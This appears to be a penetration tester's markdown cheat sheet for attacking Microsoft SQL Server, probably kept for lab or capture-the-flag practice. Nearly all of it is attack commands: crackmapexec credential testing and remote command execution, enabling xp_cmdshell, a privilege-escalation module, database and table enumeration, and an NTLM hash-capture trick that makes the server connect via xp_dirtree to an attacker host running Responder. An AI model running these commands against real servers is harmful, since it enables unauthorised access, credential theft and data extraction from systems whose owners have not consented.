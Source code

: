 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $DOMAIN\\$USER -P $PASS
```

```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree "\\$ATTACKER_IP\fake\share";
```

List files:
---

```sql
xp_dirtree "c:\inetpub\wwwroot";
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```

and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

